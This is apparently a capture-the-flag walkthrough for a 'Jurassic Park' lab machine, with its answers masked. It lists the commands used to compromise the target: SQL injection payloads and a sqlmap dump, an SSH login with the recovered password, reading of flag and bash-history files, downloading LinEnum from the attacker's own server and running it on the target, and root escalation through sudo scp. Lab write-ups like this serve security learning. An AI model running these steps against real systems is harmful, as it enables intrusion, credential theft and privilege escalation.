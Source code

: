 # Jurassic Park

- What is the SQL database called which is serving the shop information?

	- `scilla port -target <TARGET_IP>`
	- Visit `http://<TARGET_IP>`
	- Interesting content here: `http://<TARGET_IP>/item.php?id=5`
	- `scilla dir -target <TARGET_IP>`
	- `/assets` accessible, but nothing interesting.
	- `http://<TARGET_IP>/item.php?id=%27%20OR%201=1%20--%20-`
	- WOOHOO.
	- `sqlmap -u "http://<TARGET_IP>/item.php?id=1" --dump`
	- `****`

- How many columns does the table have?

	- also with: `http://<TARGET_IP>/item.php?id=5%20union%20select%201,2,3,4,5`
	- `5`

- Whats the system version?

	- `ubuntu **.**`

- What is dennis' password?

	- `********`

- Locate and get the first flag contents.

	- `ssh dennis@<TARGET_IP>`, `yes` and enter the password.
	- `cat flag1.txt`
	- `**************************`

- Whats the contents of the second flag?

	- `cat .*`
	- `cat /boot/grub/fonts/flagTwo.txt`
	- `****************************`

- Whats the contents of the third flag?

	- `cat /home/dennis/.bash_history`
	- `****************************`

- There is no fourth flag.

	  no answer needed

- Whats the contents of the fifth flag?

	- `wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh`
	- `sudo python3 -m http.server`
	- `wget http://<YOUR_IP>:8000/LinEnum.sh`
	- `chmod +x LinEnum.sh`
	- `./LinEnum.sh`
	- `sudo -l`
	- scp withou password.
	- https://gtfobins.github.io/gtfobins/scp/#sudo
	- `cat /root/root.txt`
	- `*************************`


